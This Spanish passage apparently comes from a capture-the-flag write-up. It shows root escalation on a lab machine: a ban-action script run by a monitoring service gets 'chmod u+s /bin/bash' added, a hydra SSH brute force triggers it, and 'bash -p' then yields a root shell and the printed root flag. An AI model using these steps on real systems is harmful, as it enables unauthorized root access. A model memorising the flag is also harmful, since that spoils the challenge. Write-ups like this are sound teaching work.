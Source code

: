 ```bash

echo "El registro ha sido creado en $BLOCK_LOG con la IP $IP_TO_BLOCK"
```

Genera un archivo en `/tmp` con las IP's bloqueadas y si vamos al `/tmp` veremos el archivo por lo que vemos que esta funcionando ese script y los demas no da señales de que interactue el servicio con ellos.

Por lo que haremos lo siguiente para poder editar el archivo.

```shell
mv actionban.sh actionban.bak
cp actionban.bak actionban.sh
```

Y ahora si podremos editarlo, por lo que haremos lo siguiente.

```shell
nano actionban.sh

#Dentro del nano
<RESTO_DEL_CODIGO>

chmod u+s /bin/bash
```

Lo guardamos y lo reiniciaremos el servicio ya que podemos.

```shell
sudo service login_monitor restart
```

Una vez hecho eso, tiraremos un ataque de `hydra` para que eso se ejecute.

```shell
hydra -l memesploit -P <WORDLIST> ssh://<IP> -t 64
```

Esperamos un rato y si volvemos a donde tenemos la shell del usuario `memesploit` haremos un `ls` para ver la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Y veremos que ha funcionado, por lo que haremos lo siguiente.

```shell
bash -p
```

Con esto ya seremos `root` y podremos leer la flag.

> root.txt

```
b57069733c1fbdf4795c0b36597c307a
```
